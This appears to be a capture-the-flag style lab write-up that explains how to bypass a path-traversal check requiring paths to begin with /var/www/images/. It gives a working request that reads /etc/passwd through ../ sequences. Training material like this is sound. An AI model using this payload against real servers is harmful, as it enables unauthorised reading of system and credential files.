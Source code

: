
# File path traversal, validation of start of path

This lab contains a file path traversal vulnerability in the display of product images.

The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the /etc/passwd file.

---------------------------------------------

References: 

- https://portswigger.net/web-security/file-path-traversal




![img](images/File%20path%20traversal,%20validation%20of%20start%20of%20path/1.png)

---------------------------------------------

To retrieve an image the application uses a GET request with the parameter filename and the full path:



![img](images/File%20path%20traversal,%20validation%20of%20start%20of%20path/2.png)


To retrieve /etc/passwd we need the path to start with “/var/www/images/”:

```
GET /image?filename=/var/www/images/../../../etc/passwd 
```



![img](images/File%20path%20traversal,%20validation%20of%20start%20of%20path/3.png)
